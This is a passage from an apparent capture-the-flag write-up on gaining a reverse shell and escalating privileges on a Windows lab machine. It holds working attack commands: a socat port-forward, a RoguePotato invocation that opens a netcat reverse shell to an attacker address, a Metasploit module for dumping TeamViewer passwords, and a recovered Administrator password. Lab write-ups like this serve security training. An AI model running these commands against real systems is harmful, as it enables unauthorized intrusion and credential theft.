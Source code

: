 ```xml
```

- Then use this payload to get a rev shell

![](https://i.imgur.com/umsecBE.png)

- Time to escalate privillege

## Privesc

![](https://i.imgur.com/QwOf0vZ.png)


- We have `SeImpersonatePrivilege`, so we can upload [RoguePotato](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0) to escalate privilleges
- First we need to use socat to listen on port 135 and portforward it to the machine

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```

> ./RoguePotato.exe -r 10.10.16.3 -e "cmd.exe /c curl 10.10.16.3" -l 9999

![](https://i.imgur.com/jsONQRg.png)

- Cool we have code execution, now time for a rev shell

> ./RoguePotato.exe -r 10.10.16.3 -e "cmd.exe /c nc.exe 10.10.16.3 1337 -e cmd.exe" -l 9999

![](https://i.imgur.com/hwnRLgK.png)

- We got a rev shell :)
- There's an another way to privesc using teamviewer
- If you list the running tasks you can see the machine is running teamviewer 7
- And it's a old version
- You can gather Windows Password using it!
- Use this `post/windows/gather/credentials/teamviewer_passwords` msf module to do that

![](https://i.imgur.com/uON8FZQ.png)

- After getting the password, you can login using winrm `Administrator:!R3m0te!`
- Hope you'll like this post :) cya soon
